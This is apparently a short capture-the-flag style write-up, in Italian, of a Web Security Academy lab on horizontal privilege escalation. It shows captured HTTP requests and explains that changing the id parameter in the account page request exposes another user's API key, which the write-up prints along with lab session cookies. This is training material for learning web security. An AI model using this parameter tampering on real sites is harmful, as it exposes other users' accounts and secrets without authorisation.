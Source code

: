 
> This lab has a horizontal privilege escalation vulnerability on the user account page.
> To solve the lab, obtain the API key for the user `carlos` and submit it as the solution.
> You can log in to your own account using the following credentials: `wiener:peter`


wiener api key: `fS972xHPicmUo3ncyLkGK62epY69N8Ry`

```
POST /my-account/change-email HTTP/2
Host: 0a6f002904696b828013534900fe008d.web-security-academy.net
Cookie: session=yyjMKzjjoCfdm1uLRuexfVYQ2KDHfzGN
Content-Length: 56
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="127", "Not)A;Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT
Upgrade-Insecure-Requests: 1
Origin: https://0a6f002904696b828013534900fe008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6f002904696b828013534900fe008d.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=asd%40asd.it&csrf=TmPxB0ZVdp5nDDfKSvQPUQs32orOIPLA
```

facendo la GET per visualizzare la pagina del proprio profilo, si nota che c'è il parametro `wiener`

basta cambiarlo e si ottiene l'API key di carlos

```bash
GET /my-account?id=carlos HTTP/2 <===========================
Host: 0a6f002904696b828013534900fe008d.web-security-academy.net
Cookie: session=A4VefzyeGI7OGiAjBhQPzVAZT2EWptAS
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
..
..
```


```html
<div id=account-content>
                        <p>Your username is: carlos</p>
                        <div>Your API Key is: wMZKCRiNxdfoMBJbD3SCqYZIA4dZ1HSR</div><br/>
                        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
```


